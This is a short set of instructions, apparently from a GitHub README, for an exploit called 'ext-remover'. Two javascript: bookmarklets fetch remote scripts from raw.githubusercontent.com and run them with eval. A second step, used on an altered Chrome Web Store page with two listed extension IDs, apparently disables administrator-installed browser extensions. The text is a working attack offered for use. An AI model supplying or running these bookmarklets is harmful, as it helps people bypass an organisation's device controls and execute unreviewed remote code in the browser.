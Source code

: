 step 1 save this as bookmark 
```js
javascript:fetch("https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});
```


step 2 open this `https://chrome.google.com/webstorex`
click on first bookmark
make this book mark 
```js
javascript:fetch("https://raw.githubusercontent.com/3kh0/ext-remover/main/bookmark.js").then(data=>{data.text().then(text=>{eval(text)})});
```
copy and paste this into there iheobagjkfklnlikgihanlhcddjoihkg, cgbbbjmgdpnifijconhamggjehlamcif
